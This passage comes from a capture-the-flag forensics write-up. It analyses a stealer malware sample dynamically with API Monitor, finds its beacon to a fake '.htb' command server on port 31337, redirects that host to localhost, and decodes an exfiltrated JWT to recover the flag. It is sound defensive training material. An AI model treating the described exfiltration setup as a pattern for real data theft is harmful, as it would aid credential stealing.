

Even though this function is labeled by Ghidra as the main function, it seems that it does not implement any malicious functionality but instead, it initializes the environment for the actual binary to run. We can explore a few of the functions being called but we will quickly realize that identifying what the malware does via static analysis will be a very hard task to accomplish. It turns out that this is a self-contained .NET application with AOT compilation. It is really tedious to reverse engineer such binaries without their symbols because the source code of the used DLLs is embedded into the binary as they are intended to run in any machine even if it does not have the .NET environment installed. Furthermore, this is a forensics challenge that should require no background reverse engineering knowledge. Thus, a better approach would be to analyze the malware dynamically. Some popular dynamic analysis techniques include API monitoring, network traffic analysis, emulation and binary instrumentation. Since it is a Windows executable, it is very likely that the Windows API is utilized and can be monitored from tools such as `API monitor`.

### Dynamic analysis with API Monitor

As the name implies, API monitor is a tool that monitors all the API calls made by a Windows executable. It is very likely that the malware authors will have utilized the windows API to implement most of the malicious functionality and by monitoring we will get a good idea of how the malware operates.

First, we can install API monitor from the original [website](http://www.rohitab.com/apimonitor#Download). Opening it up, we see the main page.



On the left panel, there are filters for which APIs specifically we want to monitor. As the executable is a malware, let us go ahead and filter out everything but the internet-related APIs. Our educated guess is that a stealer malware will exfiltrate the stolen data to a malicious server which is something of high importance for an analyst. We select "Monitor New Process" and we will attach `Brave.exe` using the option `Remote Thread (Standard)`.

By letting it run, we get the following output:



We can see that the malware attempts to connect to a (fake) HTB domain, namely `zOlsc2S65u.htb` at port 31337. At this point, we can simply append this domain to our `hosts` file and map this domain to `127.0.0.1`. That is because our machine does know anything about this domain so we manually tell it that it points to our localhost. Finally, we notice a GET request being made to the malicious server which fails because the challenge is not malicious itself. However, the exfiltrated data might contain useful information related to the flag so let us setup a simple HTTP Python [server](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) at port `31337` that supports `GET` and `POST` requests.



Let us load the binary again in API monitor and see what we get:



Selecting row 8, we view the bearer token:

`
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcm9tIjoiY29zdGkiLCJjYW1wYWlnbl9pZCI6Ik9wZXJhdGlvbiBFbGRvcmlhIDogRXhwb3Npbmcg<REDACTED>wPSJ9.HelK5pTs6fenv8TKmAPrV3tzhSZm4GEAnEV9vBBtAzg
`

Decoding the payload of this token, gives us the Base64-encoded flag.

